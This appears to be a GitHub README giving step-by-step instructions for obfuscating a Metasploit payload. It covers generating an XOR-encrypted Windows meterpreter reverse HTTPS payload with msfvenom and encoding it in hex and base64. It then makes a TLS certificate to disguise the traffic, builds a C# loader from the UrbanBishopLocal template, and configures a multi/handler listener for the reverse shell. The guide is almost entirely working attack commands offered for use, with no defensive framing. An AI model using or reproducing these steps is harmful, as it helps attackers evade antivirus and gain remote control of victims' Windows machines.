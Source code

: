 # Payload-Obfuscation
Some Usefull tools and specific modus operanti to obfuscate payload  

### Payload generation

```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<OurIPADRESS> LPORT=443 --encrypt xor --encrypt-key <helloworld> --format raw > testf
```  
<helloworld> are the key but we can write what we want.  

### Hex data dump

```sh
hexdump -v -e '"\\""x" 1/1 "%02x" ""' <testf>
```  

### Convert data to Base64  
```sh
base64 <testf> > <newtest>
```

### Generate Key and certificate to obfuscate more seriously
```sh
openssl req -newkey rsa:4096 \
            -x509 \
            -sha256 \
            -days 3650 \
            -nodes \
            -out example.crt \
            -keyout example.key
```  
- Concatenate two files in one 

example.key & example.crt > example.pem

### UrbanBishopLocal (for compile c# progam)  
- https://github.com/slyd0g/UrbanBishopLocal  
on windows machine install git, netcore and vscode, in the vscode install the c# extension  
```sh
dotnet new console -o <nameofproject>
cd <nameofproject>
code . (allowing to open the progam.cs in vscode directly)
```   
--> in this part we will make a copy of the code in the UrbanBishopLocal folder which named program.cs --> it's template to make the obfuscation of our payload (just copy our base64 code at the end progam.cs), but also we specified the same key which we are defined in the msfvenom part.  
            ![image](https://user-images.githubusercontent.com/88449481/162997528-3483d787-4104-4ff4-b5b5-f0b256f523bb.png)  
            ![image](https://user-images.githubusercontent.com/88449481/162997827-685cb1b2-8350-4cc8-bdaf-79deadbf74a6.png)

#### don't forget the c# extension  

```sh
dotnet build
```  
### Metasploit

```sh
msfconsole  
use exploit/multi/handler  
set HandlerSSLCert </home/PATH/TO/THE/example.pem> (of the key we are generate earlier)  
set StagerVerifySSLCert true  
set LHOST <ourIPADRESS>  
set LPORT 443  
exploit
```  

